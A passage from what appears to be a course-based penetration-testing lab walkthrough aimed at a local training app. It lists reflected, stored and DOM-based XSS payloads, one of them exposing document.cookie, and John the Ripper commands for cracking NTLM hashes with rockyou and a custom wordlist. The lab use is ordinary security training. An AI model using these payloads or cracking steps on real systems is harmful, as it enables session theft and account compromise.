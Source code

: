 ```bash
# Visit in browser:
http://localhost:4321/admin

# In the search box, enter:
<script>alert('XSS')</script>
<img src=x onerror=alert('XSS')>
```

#### Stored XSS

```bash
# In the announcement field:
<script>alert('Stored XSS')</script>
<img src=x onerror=alert(document.cookie)>
```

#### DOM-based XSS

```bash
# In the settings theme field:
<img src=x onerror=alert('DOM XSS')>
```

---

## 💣 Phase 3: Exploitation (Cours 11 - Exploitation)

### 3.1 Password Cracking (Cours 05)

#### Using John the Ripper

```bash
# Crack NTLM hashes with default wordlist
john --format=nt hashes_sam.txt

# With wordlist
john --format=nt hashes_sam.txt --wordlist=/usr/share/wordlists/rockyou.txt

# With rules
john --format=nt hashes_sam.txt --wordlist=/usr/share/wordlists/rockyou.txt --rules

# Show cracked passwords
john --show --format=nt hashes_sam.txt

# Create custom wordlist based on password hints
cat > custom_wordlist.txt <<EOF
Admin123!
Password1
Welcome2024
Database!
test
IntelliMetrics123
Intellimetrics123!
EOF

john --format=nt hashes_sam.txt --wordlist=custom_wordlist.txt
```
